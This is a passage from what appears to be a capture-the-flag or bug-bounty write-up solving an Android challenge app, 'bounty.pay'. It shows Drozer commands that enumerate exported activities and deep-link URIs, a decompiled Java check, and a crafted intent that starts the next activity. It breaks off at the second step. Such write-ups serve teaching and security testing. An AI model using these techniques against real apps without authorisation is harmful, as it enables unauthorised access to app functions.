 There are 5 exported activities:

```
dz> run app.activity.info -a bounty.pay
Package: bounty.pay
  bounty.pay.PartThreeActivity
    Permission: null
  bounty.pay.PartTwoActivity
    Permission: null
  bounty.pay.PartOneActivity
    Permission: null
  bounty.pay.MainActivity
    Permission: null
  com.google.firebase.auth.internal.FederatedSignInActivity
    Permission: com.google.firebase.auth.api.gms.permission.LAUNCH_FEDERATED_SIGN_IN
dz> run scanner.activity.browsable -a bounty.pay
Package: bounty.pay
  Invocable URIs:
    three://part
    two://part
    one://part
  Classes:
    bounty.pay.PartThreeActivity
    bounty.pay.PartTwoActivity
    bounty.pay.PartOneActivity
```

It's time to take a look into source code. There's `PartOneActivity.java` containing such part:

```java
    if ((getIntent() != null) && (getIntent().getData() != null))
    {
      String str = getIntent().getData().getQueryParameter("start");
      if ((str != null) && (str.equals("PartTwoActivity")) && (paramBundle.contains("USERNAME")))
      {
        str = paramBundle.getString("USERNAME", "");
        SharedPreferences.Editor localEditor = paramBundle.edit();
        paramBundle = paramBundle.getString("TWITTERHANDLE", "");
        localEditor.putString("PARTONE", "COMPLETE").apply();
        logFlagFound(str, paramBundle);
        startActivity(new Intent(this, PartTwoActivity.class));
      }
    }
```

Getting back to Drozer - we can start another activity with such uri:

```
dz> run app.activity.start --action android.intent.action.VIEW --data-uri "one://part?start=PartTwoActivity"
```

{F861767}

Step one completed - let's now review `PartTwoActivity.java`:
